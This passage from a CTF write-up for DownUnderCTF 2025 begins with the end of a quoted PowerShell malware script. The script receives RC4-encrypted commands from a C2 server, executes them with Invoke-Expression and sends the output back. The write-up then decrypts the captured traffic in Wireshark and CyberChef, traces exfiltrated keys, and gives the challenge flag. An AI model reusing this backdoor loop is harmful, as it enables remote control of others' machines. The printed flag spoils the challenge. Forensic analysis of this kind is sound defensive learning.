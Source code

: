     }
    $data = $buffer[5..($bytesRead - 1)]
    $decrypted = RC4-Transform -key $key -data $data
    $command = [System.Text.Encoding]::UTF8.GetString($decrypted)

    if ($command -eq "exit") { break }

    try {
        $output = (Invoke-Expression $command 2>&1) | Out-String
    } catch {
        $output = "Error"
    }

    $packet = Build-Packet -data $output.Trim()
    $stream.Write($packet, 0, $packet.Length)
}

$stream.Close()
$tcpClient.Close()
{% endhighlight %}

This script connects to a c2 server and tries to hide in the network by acting as TLS. It encrypts the payloads with RC4 with the key `f16ecdc6794c66d102f833c486e7a4358d69bdd21d50f5fbdfecaf0b9e53a4d3` and sends it to the c2.

After working out what type of traffic I'm looking for I decide to open the packet capture in Wireshark.

Since one of the commands the script is looking for from the c2 is "exit" I decide to search for that string encrypted with the key extracted from the script. "exit" encrypted is `66798f8f` so the filter I use in Wireshark is `tcp contains 66:79:8f:8f` which checks all TCP packets (as the script uses TCP/TLS) for the bytes `66798f8f`. Low and behold one packet is found from the IP address `20.5.48.200`.

![CTF/DownUnderCTF 2025/images/wireshark1.png](https://github.com/Cl4r1ty-1/CTF/blob/main/DownUnderCTF%202025/images/wireshark1.png?raw=true)

I decide to look at all the data going to and from this address using the `ip.addr` filter and from this I can map out a pretty good idea of what happened.

![wireshark2.png](https://github.com/Cl4r1ty-1/CTF/blob/main/DownUnderCTF%202025/images/wireshark2.png?raw=true)

From this screenshot we can see that the victim of the malware got the script from the original website. The machine then connects to the c2 server and there is a stream on TLS Application Data following. I to use the filter `((ip.addr == 20.5.48.200)) && (tls.record.opaque_type == 23)` to hone in on those application data packets. I try to decrypt the data from one of these packets in CyberChef with RC4 and the key found in the script and that gives me some readable commands!

![cyberchef1.png](https://github.com/Cl4r1ty-1/CTF/blob/main/DownUnderCTF%202025/images/cyberchef1.png?raw=true)

At this point I just start decrypting all these packets until I find something interesting. Eventually I get to some data that when decrypted is some base64 encoded data. After decoding this I find that it is a .tar.gz file being sent to the c2 server! I decompress the file and inside is a `keys.txt` file which hold the flag!

![cyberchef2.png](https://github.com/Cl4r1ty-1/CTF/blob/main/DownUnderCTF%202025/images/cyberchef2.png?raw=true)

Flag: `DUCTF{1_gu355_y0u_c4n_d3cRyPT_TLS_tr4ff1c}`
